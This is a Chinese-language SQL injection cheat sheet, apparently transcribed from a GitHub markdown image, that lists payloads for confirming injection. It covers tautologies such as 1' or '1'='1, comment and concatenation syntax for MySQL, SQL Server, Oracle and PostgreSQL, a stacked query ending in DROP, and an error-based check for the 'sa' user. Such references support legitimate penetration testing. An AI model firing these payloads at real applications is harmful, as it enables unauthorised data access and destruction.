 ## 确认sql注入

** 根据需要添加 "(", ")" **

* 字符串内联注入
    + '
    + 1' or '1'='1 {and}
    + 1' or '1'='2

* 数字值内联注入
    + '
    + 2+1 {-}
    + 1+0
    + 1 or 1=1 {and}
    + 1 or 1=2

* 数据库注释
    + \-\- (MSOP)
    + /\* \*/ (MSOP)
    + /\*!code \*/ {M}

    > SELECT /\*!32302 1/0 \*/ 1 FROM tablename => division by o error, if version > 3.23.02

    + \# {M}

* 数据库连接运算符
    + MySQL:
        + 'ab'='a' 'b'
        + CONCAT(str1, str2, str3)

        > SELECT CONCAT(login, password) FROM members

    + SQL Server:
        + 'ab'='a'+'b'
    + Oracle, PostgreSQL:
        + 'ab'='a'||'b'

* 堆叠查询
    + ; {S}

    > SELECT * FROM members; DROP member\-\-

* if语句
    + IF(condition, true-part, false-part) {M}

    > SELECT IF(1=1,'true','false')

    + IF condition true-part ELSE false-part {S}

    > IF (1=1) SELECT 'true' ELSE SELECT 'false'

    + attack sample

    > if ((select user)='sa' OR (select user)='dbo') select 1 else select 1/0 {S}

* 整数的使用
    + 0xHEXNUMBER {SM}
        + SELECT CHAR(0x66) {S}
        + SELECT 0x5045 {M} \-\-这不是整数而是16进制串
        + SELECT 0x50+0x45 {M} \-\-现在是整数了
